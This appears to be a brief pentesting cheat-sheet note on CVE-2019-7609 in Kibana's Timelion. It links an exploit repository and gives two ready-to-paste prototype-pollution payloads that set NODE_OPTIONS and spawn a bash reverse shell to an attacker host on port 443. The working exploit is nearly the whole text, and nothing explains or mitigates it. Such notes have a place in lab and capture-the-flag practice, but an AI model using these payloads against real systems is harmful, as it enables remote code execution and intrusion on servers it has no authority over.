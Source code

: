 ```yaml
---
category: Uncategorized
tags: []
---
```

https://github.com/mpgn/CVE-2019-7609

![[rlwrap]]

Left side menu > Timelion > Try one of the following 2 exploits:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/$KALI/443 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/$KALI/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

